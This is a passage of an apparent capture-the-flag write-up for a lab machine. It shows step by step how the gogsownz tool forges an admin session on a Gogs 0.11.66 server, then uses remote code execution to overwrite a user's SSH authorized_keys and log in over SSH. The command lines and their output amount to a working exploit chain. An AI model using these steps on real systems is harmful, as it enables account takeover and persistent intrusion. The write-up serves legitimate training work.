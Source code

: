 **Gogsownz**

https://github.com/TheZ3ro/gogsownz

After much experimentation, found that you can privesc to an admin user (kaneki) by running the follwoing:

Step 1: log in as AogiriTest and grab the special i_like_gogits cookie. 

Step 2: Run this command to get the session cookie for kaneki

```commandline
root@kali:~/htb/machines/ghoul/gogsownz# python3 gogsownz.py -k -n i_like_gogits -C AogiriTest:test@aogiri123 -c fa348246aeb2b560 http://127.0.0.1:3000 -v
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[+] Got UserID 2
[+] Repository created sucessfully
[i] Exploiting authenticated PrivEsc...
[+] Uploading admin session as repository file
[+] Uploaded successfully.
[+] Committing the Admin session
[+] Committed sucessfully
[i] Signed in as kaneki, is admin True
[i] Current session cookie: '2e16001337'
[i] Done!
root@kali:~/htb/machines/ghoul/gogsownz#
```
Step 3: Get Burp up and running and make sure the proxy is set to Intercept On

Step 4: Copy the new session cookie into the following command, being ready to intercept in Burp and remove the _csrf cookie from each request. This command will add the public key for kaneki into the gogs user’s authorized_keys (we still don’t know who is the user):

```commandline
root@kali:~/htb/machines/ghoul/gogsownz# python3 gogsownz.py http://127.0.0.1:3000/ -v -n 'i_like_gogits' -c '2e16001337' --rce 'echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8feNW7o6emQUk12tFOcucqoS/nnKN/LM3hCtPN8r4by8Ml1IR5DctjeurAmlJtXcn8MqlHCRbR6hZKydDwDzH3mb6M/gCYm4fD9FppbOdG4xMVGODbTTPV/h2Lh3ITRm+xNHYDmWG84rQe++gJImKoREkzsUNqSvQv4rO1RlO6W3rnz1ySPAjZF5sloJ8Rmnk+MK4skfj00Gb2mM0/RNmLC/rhwoUC+Wh0KPkuErg4YlqD8IB7L3N/UaaPjSPrs2EDeTGTTFI9GdcT6LIaS65CkcexWlboQu3DDOM5lfHghHHbGOWX+bh8VHU9JjvfC8hDN74IvBsy120N5 kaneki@kaneki-pc" > ~/.ssh/authorized_keys' --cleanup --burp
```

**BE PATIENT, THIS WILL WORK BUT YOU MIGHT HAVE TO TRY A FEW TIMES **

#### 172.18.0.2 - Gogs server enumeration

Root.txt is not here either… son of a gun! Have fun browsing around!

```commandline
kaneki_pub@kaneki-pc:~$ ssh git@172.18.0.2
Enter passphrase for key '/home/kaneki_pub/.ssh/id_rsa':
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

3713ea5e4353:~$ ls -al
total 20
```